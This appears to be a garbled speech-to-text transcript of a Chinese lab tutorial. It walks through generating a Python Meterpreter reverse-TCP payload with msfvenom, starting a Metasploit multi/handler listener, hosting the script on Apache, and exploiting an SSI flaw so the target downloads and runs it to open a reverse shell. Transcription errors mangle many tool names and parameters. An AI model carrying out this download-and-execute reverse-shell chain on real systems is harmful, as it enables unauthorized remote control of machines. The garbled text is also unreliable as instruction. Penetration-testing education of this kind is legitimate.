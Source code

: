 咱们来生成笑。今天呢哎我们首先切换到桌面。Al莱斯。今天我们不使用PHPI的笑，我们使用pasthon项来尝试。首先MSF。之后杠PIpathon。mattter printer之后是reverse。

TCP老ho。也就是咱们靶厂IP地址来，我们来查看一下靶厂的IP地址。192。168。1。103啊，把它copy出来。paste来之后lower port。等于4445。设置444哎之后杠F。

rung之后重定向到哎，这个root a。啊，咱们重新输入MSFVENOF呃，咱们之后是杠P表示它对应的平台的小tthon。Matter，没。Worse。TCP。Law host。等于9。168。1。

103lawport。表示它监听端口等于4444。生成的哎是一个源代码rung重定向的。root目录下的desktop。然后那咱们需要。点PY回撤。

咱们这时候哎通过这个MSFVENOM哎生成了一个基于python的呃这样一个sell，并且它返回的哎这个地址是192。168。1。103，它监听的端口啊是444啊这样一个端口。

咱们在生成这样一个cel之后，哎，需要打开mettterpo启动监听。首先输MSF control来打开mattaport。因为metalport啊是一个比较大的安全框架。

里边集成了渗透测试所有哎的这样一个过程的工具。所以说打开速度是比较慢的，因为它需要加载很多的模块。打开之后，哎，我们。来启动监庆。首先use export it。之后来是MULTI。开着了，回去了。

然后设置payload set payload。最后哎我们因为这里使用的是pathon metal printer，我们把这个复制过来。花费哎之后我们。paste回去了。

设置完这些呃那个export和payload之后，我们需要来设置对应的参数。首先使用show options，查看一下我们需要设置哪些参数回撤。

我们在这里啊可以看到需要设置啊咱们监听的啊这个主机以及对应端口，这里是跟咱们生成这个。web上啊是。一样的需要设置对应的参数。law host我们设置。卡利的这个IP地址。使用st。

law host哎之后空格，哎之后粘贴进来。回去。咱们设置啊完成之后，需要查看一下是否设置成功，依然使用受。Opts回撤。这时候哎咱们设置成功。设置完之后，使用装来开启监听回车。咱们下面哎就来靶场上。

也就是通过SSI这个漏洞来下载咱们对应啊这个脚本，并且执行反弹效。这里哎咱们输一个一，然后哎这里咱们输入对应的CMD。首先哎咱们这里要使用下载的功能。通过什么下载呢？

通过1个HTTP来这样一个写站点进行下载，192。168。1。103哎之后是咱们shall点PY。咱们会想到，咱们当前哎卡利linux并没有开启HTTP哎这样一个服务器，也就是阿帕奇服务器。

那么咱们就需要哎开启对应的服务器，并且把sell移移送到哎咱们这个阿帕奇服务器跟目录。下面咱们在终端当中操作。打开一个新的终端。之后哎，咱们切换到桌面，哎，桌面上。有一个。

需要的PY咱们把当前的sha要PY。一到阿帕奇的哎这个根目录下。HTML哎，回车LS。L杠ALH哎之后是咱们查看一下阿帕奇站点跟目录是否有hell点PY。咱们可以看到，哎，这里出现了hell点PY。

咱们再把hell点PY移到ar帕奇目录之下，需要开启ar帕奇。阿帕奇呃tostar。不撤。咱们来查看一下这个阿帕奇服务器是否启动。回撤哎，可以看到这个按卡器已经处于活动状态，哎，并且正在运行。

那我们下面哎就来执行这条命令。咱们哎先把当前的哎这个。sell下载到哎这个服务器的站点上点击这时候哎，咱们应该是下载成功。下载完之后，哎，咱们需要给当前这个hell赋值对应的权限。

可以使用chan mode。777啊，然后是shall点PY之后点击回撤，咱们复值执行权限。之后哎，咱们设置完毕哎，开始运行。使用ippathon来运行这样一个小pay。点击回撤。咱们在点击过，哎。

这里出现了卡顿，咱们来看一看是否返回了对应的shall。

![](img/a92fc36b33aa27a9e8d49fbd857248c3_12.png)
